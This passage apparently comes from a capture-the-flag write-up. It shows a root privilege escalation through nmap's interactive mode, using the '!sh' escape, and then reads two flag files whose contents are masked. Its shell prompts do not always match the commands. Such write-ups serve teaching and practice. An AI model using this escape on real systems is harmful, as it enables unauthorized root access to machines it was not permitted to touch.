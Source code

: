 ```bash
daemon@linux:/tmp$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
> whoami
root
```

> Voila! We now have root access to the server and can read the contents of any file.

After gaining root access, we can easily view the contents of both the keys.

```bash
daemon@linux:/tmp$ cd /home/robot
daemon@linux:/home/robot$ cat key-2-of-3.txt
daemon@linux:/home/robot$ *******************
daemon@linux:/home/robot$ cd /root
daemon@linux:/root$ cat key-3-of-3.txt
daemon@linux:/home/robot$ *******************
```

> That's it. Happy Hacking















